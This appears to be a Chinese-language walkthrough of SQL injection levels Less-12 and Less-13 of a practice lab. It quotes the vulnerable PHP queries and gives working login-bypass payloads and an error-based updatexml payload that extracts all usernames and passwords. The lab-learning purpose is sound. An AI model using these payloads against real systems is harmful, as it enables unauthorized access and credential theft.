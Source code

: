 <img src="图片\Snipaste_2023-01-22_19-21-45.png" alt="Snipaste_2023-01-22_19-21-45" style="zoom:80%;" />

## Less-12

部分题目源码，双引号POST型字符型注入

```php
@$sql="SELECT username, password FROM users WHERE username=($uname) and password=($passwd) LIMIT 0,1";
// 其它的与 Less-11 类似
```

使用万能密码 

```
1") or 1#
```

使用报错注入

```
1") and updatexml(1,concat(0x5e,(select group_concat(username,0x7e,password) from users),0x5e),1)#
```

## Less-13

看看 sql 语句

```
@$sql="SELECT username, password FROM users WHERE username=('$uname') and password=('$passwd') LIMIT 0,1";
```

首先还是得闭合 sql 语句，此时用 ')

```
q') or 1#
```
